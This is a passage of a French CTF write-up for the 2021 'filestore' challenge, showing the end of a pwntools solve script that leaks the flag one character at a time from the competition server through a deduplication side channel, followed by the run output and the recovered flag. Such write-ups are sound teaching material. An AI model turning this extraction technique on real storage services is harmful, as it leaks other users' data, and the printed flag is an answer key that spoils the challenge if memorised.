 ```python
            return char
            break
        quota2 = quota

host = "filestore.2021.ctfcompetition.com"
port = 1337
nc = pwn.remote(host, port)

nc.recvline() # == proof-of-work: disabled ==
nc.recvline() # Welcome to our file storage solution.
nc.recvline() # line feed (\n)

flag = "CTF{"

i=0
while flag[-1] != "}":
    flag += testChar(flag[i+1:])
    print(f"[i] {flag}")
    i+=1

print(f"\n[+] FLAG : {flag}")
```

Executons maintenant notre script python :

```
$ python3 solve.py 
[+] Opening connection to filestore.2021.ctfcompetition.com on port 1337: Done
[i] CTF{C
[i] CTF{CR
[i] CTF{CR1
[i] CTF{CR1M
[i] CTF{CR1M3
[i] CTF{CR1M3_
[i] CTF{CR1M3_0
[i] CTF{CR1M3_0f
[i] CTF{CR1M3_0f_
[i] CTF{CR1M3_0f_d
[i] CTF{CR1M3_0f_d3
[i] CTF{CR1M3_0f_d3d
[i] CTF{CR1M3_0f_d3du
[i] CTF{CR1M3_0f_d3dup
[i] CTF{CR1M3_0f_d3dup1
[i] CTF{CR1M3_0f_d3dup1i
[i] CTF{CR1M3_0f_d3dup1ic
[i] CTF{CR1M3_0f_d3dup1ic4
[i] CTF{CR1M3_0f_d3dup1ic4t
[i] CTF{CR1M3_0f_d3dup1ic4ti
[i] CTF{CR1M3_0f_d3dup1ic4ti0
[i] CTF{CR1M3_0f_d3dup1ic4ti0n
[i] CTF{CR1M3_0f_d3dup1ic4ti0n}

[+] FLAG : CTF{CR1M3_0f_d3dup1ic4ti0n}
[*] Closed connection to filestore.2021.ctfcompetition.com port 1337
```

Bingo !! Nous avons trouvé le flag : ``CTF{CR1M3_0f_d3dup1ic4ti0n}``
